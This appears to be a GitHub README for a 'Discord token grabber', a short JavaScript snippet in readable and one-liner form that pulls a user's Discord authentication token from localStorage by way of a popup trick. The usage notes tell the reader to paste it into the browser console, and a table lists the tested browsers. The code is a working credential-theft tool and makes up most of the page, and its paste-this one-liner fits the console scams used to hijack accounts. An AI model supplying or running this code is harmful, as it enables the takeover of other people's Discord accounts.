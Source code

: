 # jsConsole-discordTokenGrabber

Getting Discord token with javascript console.

Who knows what you are going to do with this code.

## Usage

* Open Discord in any supported browser(See below). And then paste the code into js console.

### Readable version

```js
function getToken() {
  // start a new tab/window under the same url
  let win = window.open();
  
  // check if the popup/new window opened successfully
  if(!win || !window.document) {
    return console.error('Unable to get token: popup blocked!');
  }
  
  // fooling localStorage trick
  win.dispatchEvent(new Event('beforeunload'));
  
  // log token
  console.log(win.localStorage.token);
  
  // clean up
  win.close();
};

getToken();
```

### One-liner pasta for javascript console

```js
(function(){let w=window.open();if(!w||!w.document)return console.error('Unable to get token: popup blocked!');window.dispatchEvent(new Event('beforeunload'));console.log(w.localStorage.token);w.close()}());
```

### Tested browsers:

| Browsers       | Supported    |
| :------------- | -----------: |
| Chrome         | :heavy_check_mark:   | 
| Safari         | :x: |
